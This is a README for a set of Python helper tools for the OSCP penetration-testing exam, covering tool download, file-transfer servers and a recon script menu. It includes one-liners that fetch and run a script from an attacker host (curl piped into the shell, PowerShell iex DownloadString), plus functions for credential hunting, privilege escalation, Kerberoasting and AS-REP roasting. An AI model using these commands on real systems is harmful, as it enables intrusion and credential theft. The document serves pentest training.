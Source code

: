# OSCP python support tools

A small set of python tools developed to pass OSCP, this set consists of 3 scripts for downloading tools (toolpy), generating payloads for reverse shells (shellpy) and transferring files (servpy).
Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy

## Install
pip install pyftpdlib pyopenssl colorama psutil

## Usage

1. Download tools
```bash
toolpy -t mimikatz -a x64  
```
```bash
-h, --help 
-t {tool}
-s {windows,linux}, --system {windows,linux}
-a {x86,x64}, --arch {x86,x64}
```

2. Run a server
```bash
usage: servpy2 [-h] [-p PORT] [-u USER] [-f FILE] [-i INTERFACE] [-pw PASSWORD] [-t]
               {http,ftp,smb,https,ftps,socat,nc,scp,servers,paths}

Simple multi-service server with optional authentication

positional arguments:
  {http,ftp,smb,https,ftps,socat,nc,scp,servers,paths}
                        Type of service to run (http, ftp, smb)

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port number to use (default: 80)
  -u USER, --user USER  Username for authentication (optional)
  -f FILE, --file FILE  Path to a file to be used by the server
  -i INTERFACE, --interface INTERFACE
                        Interface IP
  -pw PASSWORD, --password PASSWORD
                        Password for authentication (optional)
  -t, --transfer        Just print transfer examples

Examples:
     servpy https -p 8080 -u kermit -pw Password123 -f mimikatz.exe
     servpy smb -u kermit -pw kermit123 -f mimikatz.exe -t
     -t: Print commands without starting any service
     servpy servers - Show server one liners
     servpy paths - Recomended paths for downloads
```

3. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
